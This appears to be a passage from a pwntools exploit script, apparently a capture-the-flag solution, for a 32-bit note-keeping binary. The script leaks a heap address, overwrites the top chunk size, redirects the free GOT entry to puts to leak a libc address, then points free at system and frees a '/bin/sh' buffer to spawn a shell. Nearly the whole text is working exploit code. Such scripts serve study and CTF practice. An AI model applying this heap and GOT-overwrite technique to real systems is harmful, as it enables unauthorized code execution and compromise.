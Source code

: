 ```
b *0x8048A8C
b *0x8048B5B
b *0x8048BED
'''
# leak heap

p.recvline("Input your name:")
p.send("A"*0x40)
p.recvuntil("Hey "+"A"*0x40)

heap_base = u32(p.recv(0x4))-0x8
log.info("heap_base: "+hex(heap_base))

# overwrite topchunk

p.recvuntil("Org:\n")
p.send("A"*0x40)
p.recvuntil("Host:\n")
p.sendline(p32(0xffffffff))

# leak libc

off_size = note_len_array - (heap_base + 0xd8 + 0xc) - (2 * 0x4)
#pause()
new(off_size, "")

payload = p32(0x4)*2
payload += p8(0)*(0x80-len(payload))
payload += p32(free_got)
payload += p32(atoi_got)
new(int("0xb0", 0x10), payload)

edit(0, p32(puts_plt)) # free->puts

delete(1)# puts atoi's addr and set the prt_1 = 0

p.recvuntil("Input the id:\n")
libc_base = u32(p.recv(4))-atoi_off
log.info("libc_base: "+hex(libc_base))

# write system

system_addr = libc_base+system_off
edit(0, p32(system_addr)) # free_got -> system
pause()
new(8, "/bin/sh")
delete(1) # ptr_1's content = "/bin/sh"

p.interactive()
```
